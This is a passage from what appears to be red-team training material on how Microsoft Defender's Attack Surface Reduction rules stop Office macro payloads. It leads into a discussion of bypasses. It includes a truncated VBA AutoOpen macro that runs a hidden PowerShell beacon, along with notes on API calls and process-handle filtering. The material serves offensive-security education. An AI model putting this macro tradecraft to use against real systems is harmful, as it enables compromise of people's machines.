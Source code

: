 The three main ASR rules that impact your ability to use Office documents as a payload delivery mechanism are:
- block all office applications from creating child processes
- block win32 api calls from office macros
- block office applications from injecting code into other processes

These prevent us from running easy one-liner payloads like powershell and from injecting shellcode into other processes. Before we get onto bypasses, let's see how these restrictions manifest themselves.

As part of the initial compromise module in CRTO, students created macro-enabled documents that executed a beacon payload via powershell. The VBA looked something like this:

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden ..."

End Sub
```

However, if we try to do something similar on workstation 1, we'll get blocked. This is the "block all office applications from creating child processes" rule. 

Win32 APIs can be called in a macro using P/Invoke. Here's an example:

```
Private Declare PtrSafe Function MessageBoxA Lib "user32.dll" (ByVal hWnd As Long, ByVal lpText As String, ByVal lpCaption As String, ByVal uType As Long) As Long

Sub Exec()
    Dim Result As Long
    Result = MessageBoxA(0, "This is a test", "Hello World", 0)
End Sub
```

If we try to run this, we'll see that it actually works. The "block Win32 API calls from Office macros" rule only steps in when we try to write document to disk.

Finally, the "block Office applications from injecting code into other processes" rule works by restricting the privileges given when obtaining a handle to a target process.  The below screenshot is an example of a call to OpenProcess, whilst this rule is disabled, requesting PROCESS_VM_OPERATION, PROCESS_VM_READ, and PROCESS_VM_WRITE access.  My "HandleEnum" tool verifies that handle 5696 does indeed have those privileges (plus PROCESS_QUERY_LIMITED_INFORMATION).

When re-enabling the rule and repeating the experiment, we see that PROCESS_VM_WRITE and PROCESS_VM_OPERATION are not present in the handle returned by the API.  This would prevent us from using this handle to perform steps such as allocating and writing to the process' memory.

Furthermore, if we do manage to create a process the returned handle does have PROCESS_ALL_ACCESS privileges, rather than it being filtered.  

We can see that the handle returned by CreateProcessA has PROCESS_ALL_ACCESS, but the handle returned by OpenProcess (for the exact same process ID) is filtered.
